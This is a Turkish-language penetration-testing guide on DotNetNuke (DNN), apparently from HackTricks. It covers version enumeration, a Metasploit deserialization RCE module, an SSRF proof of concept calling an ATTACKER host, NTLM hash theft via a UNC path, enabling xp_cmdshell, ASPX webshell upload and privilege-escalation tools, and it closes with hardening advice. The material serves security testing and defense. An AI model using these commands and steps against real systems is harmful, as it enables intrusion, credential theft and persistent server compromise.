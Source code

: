 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNN'ye **yönetici** olarak girdiğinizde **RCE** elde etmek kolaydır, ancak son birkaç yılda bir dizi *kimlik doğrulaması yapılmamış* ve *kimlik doğrulaması sonrası* teknik yayınlanmıştır. Aşağıdaki kılavuz, hem saldırgan hem de savunma çalışmaları için en kullanışlı temel bileşenleri toplar.

---
## Versiyon & Ortam Sayımı

* *X-DNN* HTTP yanıt başlığını kontrol edin – genellikle tam platform sürümünü açıklar.
* Kurulum sihirbazı, `/Install/Install.aspx?mode=install` içinde sürümü sızdırır (çok eski kurulumlarda erişilebilir).
* `/API/PersonaBar/GetStatus` (9.x) düşük ayrıcalıklı kullanıcılar için `"dnnVersion"` içeren bir JSON nesnesi döner.
* Canlı bir örnekte göreceğiniz tipik çerezler:
* `.DOTNETNUKE` – ASP.NET formları kimlik doğrulama bileti.
* `DNNPersonalization` – XML/serileştirilmiş kullanıcı profili verilerini içerir (eski sürümler – aşağıdaki RCE'ye bakın).

---
## Kimlik Doğrulaması Yapılmamış Sömürü

### 1. Çerez Serileştirme RCE  (CVE-2017-9822 & takipleri)
*Etkilenen sürümler ≤ 9.3.0-RC*

`DNNPersonalization`, yerleşik 404 işleyicisi etkinleştirildiğinde her istekte serileştirilir. Bu nedenle, hazırlanmış XML, keyfi gadget zincirlerine ve kod yürütmeye yol açabilir.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Modül, yamanmış ancak hala savunmasız olan sürümler için doğru yolu otomatik olarak seçer (CVE-2018-15811/15812/18325/18326). Sömürü, 7.x–9.1.x sürümlerinde **kimlik doğrulama olmadan** ve 9.2.x+ sürümlerinde *doğrulanmış* düşük ayrıcalıklı bir hesapla çalışır.

### 2. Sunucu Tarafı İstek Sahteciliği (CVE-2025-32372)
*Etkilenen sürümler < 9.13.8  –  Yamanın yayımlanma tarihi Nisan 2025*

Eski `DnnImageHandler` düzeltmesinin bir atlatması, bir saldırganın sunucuyu **keyfi GET istekleri** yapmaya zorlamasını sağlar (yarı-kör SSRF). Pratik etkiler:

* Bulut dağıtımlarında iç port taraması / meta veri hizmeti keşfi.
* Aksi takdirde İnternet'ten güvenlik duvarıyla korunmuş olan ev sahiplerine ulaşma.

Kanıt konsepti (değiştir `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
İstek arka planda tetiklenir; geri çağırmalar için dinleyicinizi izleyin.

### 3. NTLM Hash Sızıntısı UNC Yönlendirmesi ile (CVE-2025-52488)
*Etkilenen sürümler 6.0.0 – 9.x (< 10.0.1)*

Özel olarak hazırlanmış içerik, DNN'nin `\\attacker\share\img.png` gibi bir **UNC yolu** kullanarak bir kaynağı almaya çalışmasına neden olabilir. Windows, NTLM müzakeresini memnuniyetle gerçekleştirir ve sunucu-hesap hash'lerini saldırgana sızdırır. **10.0.1** sürümüne yükseltin veya güvenlik duvarında dışa dönük SMB'yi devre dışı bırakın.

### 4. IP Filtre Atlatma (CVE-2025-52487)
Yönetici portalı koruması için *Host/IP Filtreleri*'ne güvenen yöneticiler, **10.0.1** sürümünden önceki sürümlerin, ters proxy senaryosunda `X-Forwarded-For`'ı manipüle ederek atlatılabileceğini bilmelidir.

---
## Kimlik Doğrulamadan RCE'ye

### SQL konsolu aracılığıyla
**`Ayarlar → SQL`** altında, site veritabanına karşı sorgu çalıştırmaya olanak tanıyan yerleşik bir sorgu penceresi bulunmaktadır. Microsoft SQL Server'da **`xp_cmdshell`**'i etkinleştirip komutlar başlatabilirsiniz:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPX webshell yükleme ile
1. **`Ayarlar → Güvenlik → Daha Fazla → Daha Fazla Güvenlik Ayarları`** kısmına gidin.
2. **İzin Verilen Dosya Uzantıları** kısmına `aspx` (veya `asp`) ekleyin ve **Kaydet** butonuna tıklayın.
3. **`/admin/file-management`** kısmına gidin ve `shell.aspx` dosyasını yükleyin.
4. Bunu **`/Portals/0/shell.aspx`** adresinde tetikleyin.

---
## Windows'ta Yetki Yükseltme
Kod yürütme **IIS AppPool\<Site>** olarak gerçekleştirildiğinde, yaygın Windows yetki yükseltme teknikleri geçerlidir. Eğer sistem savunmasızsa, şunları kullanabilirsiniz:

* **PrintSpoofer** / **SpoolFool** ile *SeImpersonatePrivilege*'i kötüye kullanın.
* *Service Accounts*'tan kaçmak için **Juicy/Sharp Potatoes** kullanın.

---
## Güçlendirme Önerileri (Mavi Ekip)

* En az **9.13.9** sürümüne (SSRF atlatmasını düzeltir) veya tercihen **10.0.1** sürümüne yükseltin (IP filtreleme ve NTLM sorunları).
* Kurulumdan sonra kalan **`InstallWizard.aspx*`** dosyalarını kaldırın.
* Çıkışta SMB'yi (portlar 445/139) devre dışı bırakın.
* DNN içinde değil, kenar proxy'sinde güçlü *Host Filtreleri* uygulayın.
* Kullanılmıyorsa `/API/RemoteContentProxy` erişimini engelleyin.

## Referanslar

* Metasploit `dnn_cookie_deserialization_rce` modül belgeleri – pratik kimlik doğrulamasız RCE detayları (GitHub).
* GitHub Güvenlik Danışmanlığı GHSA-3f7v-qx94-666m – 2025 SSRF atlatma ve yamanma bilgileri.
{{#include ../../banners/hacktricks-training.md}}
